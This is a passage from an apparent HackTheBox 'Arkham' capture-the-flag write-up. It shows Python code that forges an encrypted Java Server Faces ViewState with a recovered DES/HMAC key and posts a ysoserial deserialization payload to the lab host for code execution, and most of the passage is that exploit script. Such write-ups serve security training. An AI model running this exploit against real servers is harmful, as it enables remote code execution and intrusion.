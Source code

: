 ```py

d = DES.new(b'JsF9876-', DES.MODE_ECB)
enc_payload = d.encrypt(bin_vs)
sig = HMAC.new(b'JsF9876-', enc_payload, SHA).digest()
gen_vs = urlencode(b64encode(enc_payload + sig))
if gen_vs == vs:
    print("It worked!")
print(gen_vs)
print(vs)
```

We know that we can encrypt some payload. Now let's generate one with `ysoserial`

[YSOSERIAL](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)


![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2002:32:32.png)

Now we can create a script to encrypt the payload and send to the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2002:46:02.png)

```py
#!/usr/bin/env python3
# Author: ippsec

import requests
from base64 import b64decode, b64encode
from hashlib import sha1
import pyDes, hmac

url = 'http://10.10.10.130:8080/userSubscribe.faces'

def create_payload():
        payload = open ('payload.bin', 'rb').read()
        return encrypt_payload(payload)

def encrypt_payload(payload):
        key = b64decode('SnNGOTg3Ni0=')
        obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
        enc = obj.encrypt(payload)
        hash_val = (hmac.new(key, bytes(enc), sha1).digest())
        payload = enc + hash_val
        return b64encode(payload)

def decrypt_view_state(view_state):
        key = b64decode('SnNGOTg3Ni0=')
        obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
        view_state = b64decode(view_state)
        view_state = view_state + b'\x00\x00\x00\x00'
        dec = obj.decrypt(view_state)
        return dec

def exploit():
        view_state = create_payload()
        data = { 'javax.faces.ViewState' : view_state }
        requests.post(url, data=data)

exploit()
```
